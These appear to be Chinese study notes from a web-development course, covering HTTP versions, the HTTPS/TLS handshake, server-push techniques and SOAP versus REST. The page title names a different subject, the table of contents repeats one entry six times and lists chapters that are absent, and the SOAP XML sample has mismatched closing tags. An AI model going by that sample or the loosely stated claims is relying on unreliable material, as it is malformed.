



# 编译原理之美

# 第一章  网络协议和WEB接口

- [01 | 网络互联的昨天、今天和明天：HTTP 协议的演化](#chapter1)
- [02 | 为HTTP穿上盔甲：HTTPS](#chapter2)
- [03 | 换个角度解决问题：服务端推送技术](#chapter3)
- [04 | 工整与自由的风格之争：SOAP和REST](#chapter4)
- [05 | 权衡的艺术：漫谈Web API的设计](#chapter5)
- [07 | 解耦是永恒的主题：MVC框架的发展](#chapter7)
- [08 | MVC架构解析：模型（Model）篇](#chapter8)
- [09 | MVC架构解析：视图（View）篇](#chapter9)
- [10 | MVC架构解析：控制器（Controller）篇](#chapter10)
- [11 | 剑走偏锋：面向切面编程](#chapter11)
- [12 | 唯有套路得人心：谈谈Java EE的那些模式](#chapter12)
- [14 | 别有洞天：从后端到前端](#chapter14)
- [15 | 重剑无锋，大巧不工：JavaScript面向对象](#chapter15)
- [16 | 百花齐放，百家争鸣：前端MVC框架](#chapter16)
- [17 | 不一样的体验：交互设计和页面布局](#chapter17)
- [18 | 千言万语不及一幅画：谈谈数据可视化](#chapter18)
- [19 | 打开潘多拉盒子：JavaScript异步编程](#chapter19)
- [21 | 赫赫有名的双刃剑：缓存（上）](#chapter21)
- [22 | 赫赫有名的双刃剑：缓存（下）](#chapter22)
- [23 | 知其然，知其所以然：数据的持久化和一致性](#chapter23)
- [24 | 尺有所短，寸有所长：CAP和数据存储技术选择](#chapter24)
- [25 | 设计数据持久层（上）：理论分析](#chapter25)
- [26 | 设计数据持久层（下）：案例介绍](#chapter26)
- [28 | Ops三部曲之一：配置管理](#chapter28)
- [29 | Ops三部曲之二：集群部署](#chapter29)
- [30 | Ops三部曲之三：测试和发布](#chapter30)
- [31 | 防人之心不可无：网站安全问题窥视](#chapter31)
- [32 | 和搜索引擎的对话：SEO的原理和基础](#chapter32)
- [34 | 网站性能优化（上）](#chapter34)
- [15 | 重剑无锋，大巧不工：JavaScript面向对象](#chapter15)
- [15 | 重剑无锋，大巧不工：JavaScript面向对象](#chapter15)
- [15 | 重剑无锋，大巧不工：JavaScript面向对象](#chapter15)
- [15 | 重剑无锋，大巧不工：JavaScript面向对象](#chapter15)
- [15 | 重剑无锋，大巧不工：JavaScript面向对象](#chapter15)
- [15 | 重剑无锋，大巧不工：JavaScript面向对象](#chapter15)


<h1 id="chapter1">01 | 网络互联的昨天、今天和明天：HTTP 协议的演化</h1>

## HTTP/1.0

HTTP 1.0 版本就稳定而成熟了，也是如今浏览器广泛支持的最低版本 HTTP 协议。引入了返回码，引入了 header，引入了多字符集，也终于支持多行请求了。

当然，它的问题也还有很多，支持的特性也远没有后来的 1.1 版本多样。比如，方法只支持 GET、HEAD、POST 这几个。但是，麻雀虽小五脏俱全，这是第一个具备广泛实际应用价值的协议版本。

懂一点特定的协议，使用简单的命令行和文本编辑工具，我们就已经可以做很多事情了。比如改变 UA 头的办法，可以模拟不同的浏览器，就是用来分析浏览器适配（指根据不同浏览器的兼容性返回不同的页面数据）的常用方法。

## HTTP/1.1

在 HTTP 1.0 版本时，每一组请求和响应的交互，都要完成一次 TCP 的连接和关闭操作，这在曾经的互联网资源比较贫瘠的时候并没有暴露出多大的问题，但随着互联网的迅速发展，这种通讯模式显然过于低效了。

于是这个问题的解决方案——HTTP 的长连接，就自然而然地出现了，它指的是打开一次 TCP 连接，可以被连续几次报文传输重用，这样一来，我们就不需要给每次请求和响应都创建专门的连接了：


可以看到，**通过建立长连接，中间的几次 TCP 连接开始和结束的握手都省掉了。**

在长连接开启的情况下，使用 Content-Length 还是 chunked 头，必须具备其中一种。**分块传输编码大大地提高了 HTTP 交互的灵活性，**服务端可以在还不知道最终将传递多少数据的时候，就可以一块一块将数据传回来。

事实上 HTTP/1.1 还增加了很多其它的特性，比如更全面的方法，以及更全面的返回码，对指定客户端缓存策略的支持，对 content negotiation 的支持（即通过客户端请求的以 Accept 开头的头部来告知服务端它能接受的内容类型），等等。

## HTTP/2

现在最广泛使用的 HTTP 协议还是 1.1 ，但是 HTTP/2 已经提出，在保持兼容性的基础上，包含了这样几个重要改进：

- 设计了一种机制，允许客户端来选择使用的 HTTP 版本，这个机制被命名为 ALPN；

- HTTP 头的压缩，在 HTTP/2 以前，HTTP 正文支持多种方式的压缩，但是 HTTP 头部却不能；

- 多路复用，允许客户端同时在一个连接中同时传输多组请求响应的方法；

- 服务端的 push 机制，比方说客户端去获取一个网页的时候，下载网页，分析网页内容，得知还需要一个 js 文件和一个 css 文件，于是再分别下载，而服务端的 push 机制可以提前就把这些资源推送到客户端，而不需要客户端来索取，从而节约网页加载总时间。

最后，我想说的是，**HTTP 协议的进化史，恰恰是互联网进化史的一个绝佳缩影，**从中你可以看到互联网发展的数个特质。比方说，长连接和分块传输很大程度上增强了 HTTP 交互模型上的灵活性，使得 B/S 架构下的消息即时推送成为可能。

## 注意：

1. http1.1长连接和2.0多路复用的区别
2. 抓包中除了HTTP请求和响应报文之外，是TCP报文。

<h1 id="chapter2">02 | 为HTTP穿上盔甲：HTTPS</h1>

## HTTP，SSL/TLS 和 HTTPS

在一开始的时候，HTTP 的设计者并没有把专门的加密安全传输放进协议设计里面。因此单独使用 HTTP 进行明文的数据传输，一定存在着许多的安全问题。比方说，现在有一份数据需要使用 HTTP 协议从客户端 A 发送到服务端 B，而第三方 C 尝试来做点坏事，于是就可能产生如下四大类安全问题：

- Interception：拦截。传输的消息可以被中间人 C 截获，并泄露数据。

- Spoofing：伪装。A 和 B 都可能被 C 冒名顶替，因此消息传输变成了 C 发送到 B，或者 A 发送到 C。

- Falsification：篡改。C 改写了传输的消息，因此 B 收到了一条被篡改的消息而不知情。

- Repudiation：否认。这一类没有 C 什么事，而是由于 A 或 B 不安好心。A 把消息成功发送了，但之后 A 否认这件事发生过；或者 B 其实收到了消息，但是否认他收到过。

但是，与其重新设计一套安全传输方案，倒不如发挥一点拿来主义的精神，把已有的和成熟的安全协议直接拿过来套用，最好它位于呈现层（Presentation Layer），因此正好加塞在 HTTP 所在的应用层（Application Layer）下面，**这样这个过程对于 HTTP 本身透明，也不影响原本 HTTP 以下的协议（例如 TCP）**。

这个协议就是 SSL/TLS，它使得上面四大问题中，和传输本身密切相关的前三大问题都可以得到解决（第四个问题还需要引入数字签名来解决）。于是，HTTP 摇身一变成了 HTTPS：

> HTTP + SSL/TLS = HTTPS

SSL 指的是 Secure Socket Layer，而 TLS 指的是 Transport Layer Security，事实上，一开始只有 SSL，但是在 3.0 版本之后，SSL 被标准化并通过 RFC 2246 以 SSL 为基础建立了 TLS 的第一个版本，因此可以简单地认为 SSL 和 TLS 是具备父子衍生关系的同一类安全协议。

## 动手捕获 TLS 报文

命令行执行抓包命令，指明要抓 https://www.google.com 的包（当然，你也可以使用其他 HTTPS 网站地址），注意 HTTPS 的默认端口是 443（-i 指定的 interface 可能因为不同的操作系统有所区别，在我的 Mac 上是 en0）

```java
sudo tcpdump -i en0 -v 'host www.google.com and port 443' -w https.cap
```

再新建一个命令行窗口，使用 curl 命令来访问 Google 主页：

```java
curl https://www.google.com
```

于是在看到类似如下抓包后 CTRL + C 停止：

```java
tcpdump: listening on en0, link-type EN10MB (Ethernet), capture size 262144 bytes
^C49 packets captured
719 packets received by filter
0 packets dropped by kernel
```

接着使用 Wireshark 打开刚才抓的 https.cap，在 filter 中输入 tls，得到如下请求和响应报文：


可以看到，这里有五个重要的握手消息，在它们之后的所有消息都是用于承载实际数据的“Application Data”了。握手的过程略复杂，接下来我会尽可能用通俗的语言把最主要的流程讲清楚。

## 对称性和非对称性加密

对称性加密（Symmetric Cryptography），指的是加密和解密使用相同的密钥。这种方式相对简单，加密解密速度快，但是由于加密和解密需要使用相同的密钥，如何安全地传递密钥，往往成为一个难题。

非对称性加密（Asymmetric Cryptography），指的是数据加密和解密需要使用不同的密钥。通常一个被称为公钥（Public Key），另一个被称为私钥（Private Key），二者一般同时生成，但是**公钥往往可以公开和传播，而私钥不能。经过公钥加密的数据，需要用私钥才能解密；**反之亦然。这种方法较为复杂，且性能较差，好处就是由于加密和解密的密钥具有相对独立性，公钥可以放心地传播出去，不用担心安全性问题

> 原始数据 + 公钥 → 加密数据
> 加密数据 + 私钥 → 原始数据

## TLS 连接建立原理


**Step 1: Client Hello.** 客户端很有礼貌，先向服务端打了个招呼，并携带以下信息：

- 客户端产生的随机数 A；

- 客户端支持的加密方法列表。

**Step 2: Server Hello.**服务端也很有礼貌，向客户端回了个招呼：

- 服务端产生的随机数 B；

- 服务端根据客户端的支持情况确定出的加密方法组合（Cipher Suite）。

**Step 3: Certificate, Server Key Exchange, Server Hello Done.** 服务端在招呼之后也紧跟着告知：

- Certificate，证书信息，证书包含了服务端生成的公钥。

客户端收到消息后，验证确认证书真实有效，那么这个证书里面的公钥也就是可信的了.

接着客户端再生成一个随机数 C（Pre-master Secret），于是现在共有随机数 A、B 和 C，根据约好的加密方法组合，三者可生成新的密钥 X（Master Secret），而由 X 可继续生成真正用于后续数据进行加密和解密的对称密钥。因为它是在本次 TLS 会话中生成的，所以也被称为会话密钥（Session Secret）。简言之：

> 客户端随机数 A + 服务端随机数 B + 客户端 Pre-master Secret C → 会话密钥

需要注意的是，实际这个 Pre-master Secret 的生成方法不是固定的，而会根据加密的具体算法不同而不同：

- 上述我介绍的是传统 RSA 方式，即 Pre-master Secret 由客户端独立生成，加密后再通过 Client Key Exchange 发回服务端。

- 还有一种是 ECDHE 方式，这种方式下无论在客户端还是服务端，Pre-master Secret 需要通过 Client Key Exchange 和 Server Key Exchange 两者承载的参数联合生成。

**Step 4: Client Key Exchange, Change Cipher Spec, Encrypted Handshake Message.** 接着客户端告诉服务端：

- Client Key Exchange，本质上它就是上面说的这个 C，但使用了服务端通过证书发来的公钥加密；

- Change Cipher Spec，客户端同意正式启用约好的加密方法和密钥了，后面的数据传输全部都使用密钥 X 来加密；

- Encrypted Handshake Message，快速验证：这是客户端对于整个对话进行摘要并加密得到的串，如果经过服务端解密，和原串相等，就证明整个握手过程是成功的。

服务端收到消息后，用自己私钥解密上面的 Client Key Exchange，得到了 C，这样它和客户端一样，也得到了 A、B 和 C，继而到 X，以及最终的会话密钥。

于是，客户端和服务端都得到了能够加密解密传输数据的对称密钥——会话密钥。

因此，我们可以看到：**TLS 是通过非对称加密技术来保证握手过程中的可靠性（公钥加密，私钥解密），再通过对称加密技术来保证数据传输过程中的可靠性的。**

这种通过较严格、较复杂的方式建立起消息交换渠道，再通过相对简单且性能更高的方式来实际完成主体的数据传输，并且前者具有长效性（即公钥和私钥相对稳定），后者具有一过性（密钥是临时生成的），这样的模式，我们还将在全栈的知识体系中，继续见到。

**Step 5: Change Cipher Spec, Encrypted Handshake Message.** 服务端最后也告知客户端

- Change Cipher Spec，服务端也同意要正式启用约好的加密方法和密钥，后面的数据传输全部都使用 X 来加密。

- Encrypted Handshake Message，快速验证：这是服务端对于整个对话进行摘要并加密得到的串，如果经过客户端解密，和原串相等，就证明整个握手过程是成功的。

<h1 id="chapter3">03 | 换个角度解决问题：服务端推送技术</h1>

## Pull 模型的问题

先来看两个容易弄混的概念：Pull 和 Poll。

“Pull”指的是去主动发起行为获取消息，一般在客户端 / 服务器（C/S，Client/Server）或浏览器 / 服务器（B/S，Browser/Server）交互中，客户端或浏览器主动发起的网络请求数据的行为

而“Poll”，尽管在某些场景下也和 Pull 通用了，但在计算机网络的领域里，通常把它解释为“轮询”，或者“周期性查询”，在 Pull 的基础上增加了“周期性”的概念，这也是它和 Pull 相比最本质的区别。

相应地，和 Pull 行为相对的，从服务端主动发起，发送数据到客户端的行为叫做“Push”。Push 相比 Pull 而言，具备这样两个明显的优势：

- **高效性。**如果没有更新发生，就不会有任何更新消息推送的动作，即每次消息推送都发生在确确实实的更新事件之后，都是有意义的，不会出现请求和响应的资源浪费

- **实时性。**事件发生后的第一时间即可触发通知操作，理论上不存在任何可能导致通知延迟的硬伤。

可是，有趣的是，事实上 Pull 的应用却远比 Push 更广泛，特别是在分布式系统中。这里有多个原因，其中很重要的一条是：

服务端不需要维护客户端的列表，不需要知晓客户端的情况，不需要了解客户端查询的策略。**这有助于把服务端从对客户端繁重的管理工作中解放出来，而成为无状态的简单服务，变得具备幂等性（idempotent，指执行多次和执行一次的结果一样），更容易横向扩展。**

尤其在分布式系统中，状态经常成为毒药，有了状态，就不得不考虑状态的保存、丢失、一致性等问题，因此这种无状态往往可以很大程度地简化系统的设计。

## 服务端推送技术

有了这些基础知识，我们就可以来谈谈实际的服务端推送技术了，这些都从一定程度上解决了 HTTP 传统方式 Pull 的弊端。

## 1. Comet

严格说，Comet 是一种 Web 应用客户端和服务端交互的模型，它有几种服务端推送的具体实现，但是，它们的大致原理是一样的：**客户端发送一个普通的 HTTP 请求到服务端以后，服务端不像以往一样在处理后立即返回数据，而是保持住连接不释放，每当有更新事件发生，就使用分块传输的方式返回数据。**

若干次数据返回以后可以完成此次请求响应过程（分块传输返回长度为 0 的块，表示传输结束），等待客户端下一次请求发送。这种过程看起来也属于轮询，但是每个周期可包含多次服务端数据返回，因而也被形象地称为“长轮询”（Long Polling）。

在服务端推送技术中，Comet 最大的好处是，它 100% 由 HTTP 协议实现，当然，分块传输要求 HTTP 至少是 1.1 版本。但也正因为这点，它也存在一些弊端，比如，客户端必须在服务端结束当次传输后才能向服务端发送消息；HTTP 协议限制了它在每次请求和响应中必须携带完整的头部，这在一定程度上也造成了浪费（这种为了传输实际数据而使用的额外开销叫做 overhead）。

下面我给出了一个 Comet 实现的示例图。浏览器在发出 1 号请求要求数据，连接保持，接着陆续收到几个不同大小的响应数据，并且最后一个大小为 0，浏览器被告知此次传输完成。过了一会儿，浏览器又发出 2 号请求，开始第二轮的类似交互。


在 Comet 方式下，**看起来服务端有了推送行为，其实只是对于客户端请求有条件、讲时机的多次返回**，因此我们把它称为服务端“假 Push”

## 2. WebSocket

HTML 5 规范定义了 WebSocket 协议，它可以通过 HTTP 的端口（或者 HTTPS 的端口）来完成，从而最大程度上对 HTTP 协议通透的防火墙保持友好。但是，**它是真正的双向、全双工协议，也就是说，客户端和服务端都可以主动发起请求，回复响应，而且两边的传输都互相独立。**

和上文的 Comet 不同，WebSocket 的服务端推送是完全可以由服务端独立、主动发起的，因此它是服务端的“真 Push”。

WebSocket 是一个可谓“科班出身”的二进制协议，也没有那么大的头部开销，因此它的传输效率更高。同时，和 HTTP 不一样的是，它是一个带有状态的协议，双方可以约定好一些状态，而不用在传输的过程中带来带去。而且，WebSocket 相比于 HTTP，它没有同源的限制，服务端的地址可以完全和源页面地址无关，即不会出现臭名昭著的浏览器“跨域问题”。

另外，它和我们之前学习的加密传输也丝毫不冲突，由于它在网络分层模型中位于 TLS 上方，因此他可以使用和 HTTP 一样的加密方式传输：

> HTTP → WS
> HTTPS → WSS

最后，最有意思的事情在于，和我们之前的认识不同，WebSocket 是使用 HTTP 协议“升级”的方法来帮助建立连接的，下面我们动手来试一试。

首先，我们需要找到一个可以支持 WebSocket 测试的网站，比如 websocket.org，然后我们将使用 Chrome 的网络工具来捕获和显示通过浏览器发送和接收的消息。

使用 Chrome 打开 Echo Test 页面，在这里你可以发送建立一个 WebSocket 连接。但是别急，我们先打开 Chrome 的开发者工具，并选中 Network 标签，接着点击左上角的清除按钮，把已有页面加载的网络消息清除掉，以获得一个清爽的网络报文监视界面


接着，确保页面上建立 WebSocket 连接的对端地址和传递的信息都已经填写，比如：

```java
Location:
wss://echo.websocket.org
Message:
Rock it with HTML5 WebSocket
```

于是就可以点击“Connect”按钮了，旁边的日志框将出现“CONNECTED”字样，同时，Chrome 开发者工具将捕获这样的请求（如果在开发者工具中网络监视界面上，选中消息的消息头处于“parsed”展示模式，你需要点击 Request Headers 右侧的 “view source” 链接来查看原始消息头）：

```java
GET wss://echo.websocket.org/?encoding=text HTTP/1.1
Host: echo.websocket.org
Origin: https://www.websocket.org
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: xxx
... (省略其它 HTTP 头)
```

好，你可以看到，这是一个普普通通的 HTTP GET 请求，但是 URL 是以加密连接“wss”开头的，并且有几个特殊的 HTTP 头：Origin 指出了请求是从哪个页面发起的，Connection: Upgrade 和 Upgrade: websocket 这两个表示客户端要求升级 HTTP 协议为 WebSocket。

好，再来看响应，消息的头部为：

```java
HTTP/1.1 101 Web Socket Protocol Handshake
Connection: Upgrade
Sec-WebSocket-Accept: xxx
Upgrade: websocket
... (省略其它 HTTP 头)
```

嗯，返回码是 101，描述是“Web Socket Protocol Handshake”，并且，它确认了连接升级为“websocket”的事实。

## 3. 更多推送技术

到这里，我已经介绍了几种服务端的推送技术，事实上还有更多，但是，**如果你依次了解以后认真思考，就会发现，这些原理居然都在某种程度上和我介绍的 Comet 和 WebSocket 这两种类似，有的甚至来自于它们。**

这些技术包括:

- SSE，即 Server-Sent Events，又叫 EventSource，是一种已被写入 HTML 5 标准的服务端事件推送技术，它允许客户端和服务端之间建立一个单向通道，以让服务端向客户端单方向持续推送事件消息；

- 为了提高性能，HTTP/2 规范中新添加的服务端推送机制，我们在 [第 01 讲] 中提到过，并在该讲的扩展阅读中有它的原理介绍；

- WebRTC，即 Web Real-Time Communication，它是一个支持网页进行视频、语音通信的协议标准，不久前已被加入 W3C 标准，最新的 Chrome 和 Firefox 等主流浏览器都支持；

- 还有一些利用浏览器插件和扩展达成的服务端推送技术，比如使用 Flash 的 XMLSocket，比如使用 Java 的 Applet，但这些随着 HTML 5 的普及，正慢慢被淘汰。

<h1 id="chapter4">04 | 工整与自由的风格之争：SOAP和REST</h1>

SOAP，Simple Object Access Protocol，即简单对象访问协议，定义了数据对象传输的格式，以便在网络的节点之间交换信息。你可能会问，HTTP 不就是干这事的吗？其实，它们都在 OSI 7 层模型的应用层上，但却互不冲突，SOAP 并不依赖于 HTTP 而存在，而且它们可以互相配合。

HTTP 负责信息的传输，比如传递文本数据，关心的是消息的送达，但却不关心这个数据代表着什么。这个数据可能本来是一个内存里的对象，是一篇文章，或者是一张图片。但是 SOAP 恰恰相反，它关心的就是怎样把这个数据给序列化成 XML 格式的文本，在传输到对端以后，再还原回来。

用一个形象的比喻就是，**消息传输就像快递，HTTP 主要关心的是信封，而 SOAP 主要关心的是信封里的物件。**今天我们讨论的 SOAP，不仅仅是协议本身，更主要的是它的风格。

REST，Representational State Transfer，即表现层状态转换，指的是一种为了信息能在互联网上顺利传递而设计的软件架构风格。对，请注意，**SOAP 是协议，但 REST 是风格，而非协议或标准**，至于 HTTP，它是 REST 风格的重要载体。重要，但不是唯一，因为载体并不只有 HTTP 一个，比如还有 HTML 和 XML，它们恰当地互相配合，组合在一起，来贯彻和体现 REST 的风格。

SOAP 和 REST，由于概念层次上的不同，其实原本是无法放到一起比较的，但是当我们旨在风格层面上讨论 SOAP 和 REST 的时候，这件事却变得可行而有趣了。

现在让我们用一个实际例子来进一步认识它们。这个例子很常见，假设我们要设计一个图书馆，馆中的书可以增删改查（CRUD），特别是要添加一本书的时候，我们分别来看看，应用 SOAP 该怎么做，应用 REST 又该怎么做。

## SOAP

这是一个最简单的给图书馆添加一本书的 XML 消息体：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope
 xmlns:soap="https://www.w3.org/2003/05/soap-envelope/"
 soap:encodingStyle="https://www.w3.org/2003/05/soap-encoding">
  <soap:Body xmlns:b="...">
    <b:CreateBook>
      <b:Name>...</m:Name>
      <b:Author>...</m:Author>
      ...
    </b:CreateBook>
  </soap:Body>
</soap:Envelope>
```

简单解释一下：

1. 第一行指明了这个消息本身格式是 XML，包括它的版本号和编码格式。

2. 这里的很多标签都带有“soap:”的前缀，其实，这里的“soap”就是 XML 的命名空间（其中“xmlns”就是指“xml namespace”），并且通过 XML schema 的方式预先定义好了如下两个 SOAP 消息必须要遵从的规则：

- 一个是代码片段第 3 行的 soap-envelope，它定义了基本的语法规则，比如标签的从属关系，比如同级某标签的个数限制等等，举例来说，你可以看到例子中有一个 Body 标签位于 Envelope 内部，这就是它定义的；

- 另一个是代码片段第 4 行的 soap-encoding，它定义了编码和数据类型等规则

3. 在 Body 标签内部，有一个 CreateBook 标签，这是我们的业务标签，命名空间 b 也是我们自己定义的。通过在内部封装姓名（Name）和作者（Author）等书本信息，实现了在图书馆中添加书本的需求。

上面是一个最简单的例子，实际在 Envelope 中还可以添加 Head 标签，用于存放头部信息，在 Body 中可以添加 Fault 标签，用于存放错误信息。关于这些，都在 XML schema 中做了严格的定义，通过它可以帮助验证一个 XML 是否符合格式，从而可以在最短的时间内验证并发现消息中的格式问题。

SOAP 通常是通过 HTTP POST 的方式发送到对端的，这个图书馆对书本的增删改查操作，URL 可以是同一个，这是因为 SOAP 消息的具体内容写明了具体要干什么（上述的 CreateBook 标签）。比如下面这个例子，请注意其中的 Content-Type，它是令响应具备自我描述特性的重要组成部分：

```java
POST /books HTTP/1.1
Host: xxx
Content-Type: application/soap+xml; charset=utf-8
Content-Length: xxx

... (省略前述的 SOAP 消息体)
```

最后，谈谈经常和 SOAP 放在一起谈论的 WSDL，Web Service Description Language。

WSDL 用于描述一个 Web Service，说白了，就是用来说明某个 Web 服务该怎样使用，有怎样的接口方法，支持怎样的参数，会有怎样的返回。由于支持 SOAP 的服务端接口是经常使用 WSDL 来描述，因此我们才看到它们总被放在一起讨论，于是在这种情况下，**WSDL 常常被形容成 SOAP 服务的使用说明书**，但是请注意，本质上它们之间不存在依赖关系。

**这种将服务和服务的描述解耦开设计的方式非常普遍**，希望你可以去类比和联想。在软件的世界里，我们经常谈论这个“描述”的行为，以及描述者和被描述者。比如元属性描述数据，方法签名描述方法，类描述对象等等。

## REST

现在，我们再来看 REST 的做法。**REST 的核心要素包括资源、表现层和状态转换这三个部分**。我们把前面客户端发送请求的过程使用 REST 风格再来实现一遍，你将看到这三个要点是怎样体现出来的：

### 1. 协议

我们将使用 HTTP 协议，在加密的情况下，协议是 HTTPS，但这对我们的实现来说没有什么区别。

### 2. URL

通常来说，这个 URL 要包括域名、版本号以及实体名称，而这个 URL 整体，代表了 REST 中的一类或一项“资源”。比如说：

```
https://xxx/v1/books
```

请注意其中的实体名称，它往往是一个单纯的名词，并且以复数形式出现

这里提到了 URL，我想给经常混用的 URL、URI 做个简要的说明：URL 指的是 Uniform Resource Locator，URI 指的是 Uniform Resource Identifier，前者是统一资源定位符，后者是统一资源标识符。**Identifier 可以有多种形式，而 locator 只是其中一种，因此 URI 更宽泛，URL 只是 URI 的其中一种形式。**

当我们提到一个完整的地址，例如 https://www.google.com， 它就是 URL，因为它可以被“定位”，它当然也是 URI；但是如果我们只提到上面地址的一个片段，例如 www.google.com，那么由于缺少了具体协议，我们无法完成完整的定位，因此这样的东西只能被叫做一个标识符，故而只能算 URI，而非 URL。

### 3. 方法

HTTP 的方法反映了这个接口上将执行的行为，如果用自然语言描述，它将是一个动词。比如说，给图书馆添加一本图书，那么这个行为将是“添加”。在以 REST 风格主导的设计中，我们将使用这样的 HTTP 方法来代表增删改查（CRUD）的不同动作：


重点解释下表格的最后两列：

- **幂等性指的是对服务端的数据状态，执行多次操作是否和执行一次产生的结果一样。**从表格中你可以看到，创建资源单位不是幂等的，执行多次就意味着创建了多个资源单位，而其它操作都是幂等的。通常来说，**幂等操作是可以被重试而不产生副作用的。**

- **安全性指的是该操作是否对服务端的数据状态产生了影响。**从表格中可以看到，获取资源的操作是安全的，不会对资源数据产生影响，但是其它操作都是不安全的。一定条件下，**安全操作是可以被缓存的**，而不安全的操作，必定对服务端的状态产生了影响，这体现了 REST 的“状态转换”这一要素。

全栈系统的设计和优化都需要紧密围绕幂等性和安全性进行，这是两个非常重要的概念，在我们后续的学习中，你还会反复见到它们，并和它们打交道。

你看，通过这样的办法，就把 HTTP 的方法和实际对资源的操作行为绑定起来了。当然，还有一些其它方法，比较常见的有：

- PATCH：和 PUT 类似，也用于资源更新，但支持的是资源单位的部分更新，并且在资源不存在的时候，能够自动创建资源，这个方法实际使用比较少。

- HEAD：这个方法只返回资源的头部，避免了资源本身获取和传输的开销。这种方法很有用，经常用来检查资源是否存在，以及有无修改。

- OPTIONS：这个方法常用来返回服务器对于指定资源所支持的方法列表。

### 4. 正文

POST 和 PUT 请求都是有 HTTP 正文的，正文的类型和 Content-Type 的选取有关，比如 JSON 就是最典型的一种格式。请不要轻视这里的 Content-Type，从本质上说，它代表了资源的表现形式，从而体现了 REST 定义中的“表现层”这一要素。

最后，回到我们实际的图书馆添加图书的问题。SOAP 添加一本书的消息，用 REST 风格的 POST 请求实现就会变成这样：

```json
POST /v1/books HTTP/1.1
HOST: ...
Content-Type: application/json

{
  "name": "...",
  "author": "...",
  ...
}
```

## 风格之争

看到这儿，你应该已经感受到了，SOAP 和 REST 代表了两种迥异的风格。在我们取舍技术的时候，如果没有给出具体场景和限制，我们往往是很难讲出谁更“好”，而是需要进行比较，权衡利弊的。

SOAP 明显是更“成熟”的那一个。它在数据传输的协议层面做了更多的工作，藉由 XML schema，它具备更严格的检查和校验，配合 WSDL，在真正发送请求前，几乎就对所有远程接口事无巨细的问题有了答案。但是，它的复杂度令人望而生畏，也是它最受人诟病的地方。

REST 则相反，新接口的学习成本很低，只需要知道资源名称，根据我们熟知的规约，就可以创建出 CRUD 的请求来。但是直到真正发送请求去测试为止，并没有办法百分百确定远程接口的调用是否能工作，或者说，并不知道接口定义上是否有不规范、不合常规的坑在里面。

对于互联网来说，SOAP 已经是一项“古老”的技术了，晚辈 REST 似乎更切合互联网的潮流。在大多数情况下，REST 要易用和流行得多，于是很多人都不喜欢繁琐的 SOAP 协议。**技术的发展总是有这样的规律，一开始无论问题还是办法都很简单，可是随着需求的进一步增加，解决的方法也缓慢演化，如 SOAP 一般强大而复杂，直到某一天突然掉到谷底，如 REST 一般返璞归真。**

但是别忘了，有利必有弊。首先，正是因为 REST 只是一个缺乏限制的风格，而非一个严谨的规范，有太多不明确、不一致的实现导致的问题，这些问题轻者给接口调用者带来困惑，重者导致接口调用错误，甚至服务端数据错误。

其次，REST 通过 HTTP 方法实现本身，也受到了 HTTP 方法的局限性制约。比如最常见的 GET 请求，有时需要一个复杂的查询条件集合，因此参数需要结构化，而 GET 只支持一串键值对组合的参数传递，无法适应业务需要。对于这样的问题，有一些 workaround，比如使用 POST 消息体来传递查询条件的结构体，但那已经偏离了 REST 的最佳实践，丢失了 GET 本身的优势，也带来了实现不一致等一系列问题。

